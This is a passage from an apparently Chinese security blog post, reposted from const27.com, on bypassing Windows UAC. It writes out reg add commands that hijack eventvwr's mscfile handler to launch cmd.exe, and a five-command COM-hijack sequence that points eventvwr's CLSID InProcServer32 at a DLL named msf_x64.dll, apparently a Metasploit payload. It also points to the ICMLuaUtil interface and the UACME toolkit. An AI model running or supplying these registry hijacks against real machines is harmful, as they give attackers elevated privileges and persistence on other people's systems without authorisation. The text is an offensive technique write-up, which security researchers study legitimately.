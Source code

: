 ### ![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG6ueNUibOMjs2J6KWs5XYDAbu0oAACMvibAE3MEWKsuO7xia54UsvtSicaJQ/640?wx_fmt=png)

### eventvmr

<table width="797"><tbody><tr><td><pre class="hljs cs">reg add "HKCU\Software\Classes\mscfile\shell\open\command" /d C:\Windows\System32\cmd.exe /f</pre></td></tr></tbody></table>

win10，win7 均无效, 不知道是哪个版本的事了，反正记录下来吧。

5. COM 劫持
---------

和 dll 劫持类似，应用程序在运行时也会去加载指定 CLSID 的 COM 组件，其加载顺序如下

<table width="797"><tbody><tr><td><pre class="hljs objectivec">HKCU\Software\Classes\CLSID
HKCR\CLSID
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\ShellCompatibility\Objects\</pre></td></tr></tbody></table>

以 eventvwr 为例

执行该程序时会去寻找 {0A29FF9E-7F9C-4437-8B11-F424491E3931} 这个组件，这个组件又需要加载 InProcServer32 指定的 DLL，而这个 DLL 的路径可由用户定义。

而 eventvwr 的这个组件一般在 HKCR\CLSID 找到，所以可以搜索路径劫持。

利用以下方法可以劫持（搜索路径劫持）

<table width="797"><tbody><tr><td><pre class="hljs cs">reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "" /t REG_SZ /d "d:\msf_x64.dll" /f 

reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "LoadWithoutCOM" /t REG_SZ /d "" /f 

reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\InProcServer32 /v "ThreadingModel" /t REG_SZ /d "Apartment" /f 

reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "HideOnDesktop" /t REG_SZ /d "" /f 

reg add HKEY_CURRENT_USER\Software\Classes\CLSID\{0A29FF9E-7F9C-4437-8B11-F424491E3931}\ShellFolder /v "Attributes" /t REG_DWORD /d 0xf090013d /f</pre></td></tr></tbody></table>

6. 利用 com 接口
------------

### ICMLuaUtil

### ![](https://mmbiz.qpic.cn/mmbiz_png/GzdTGmQpRic0uY1a8bXeA9fzrtqVCgDG6P3SZBuo8czrRd9r1eTG6mY6xN8ibs2Aaibiaoib204bqSYIwB01emVDCmw/640?wx_fmt=png)

五. UACME
========

一个开源项目，记录了许多 Bypassuac 的方法。

https://github.com/hfiref0x/UACME/tree/v3.2.x

六. windbg 调试
============

```
作者：ConsT27，转载于https://www.const27.com
```

公众号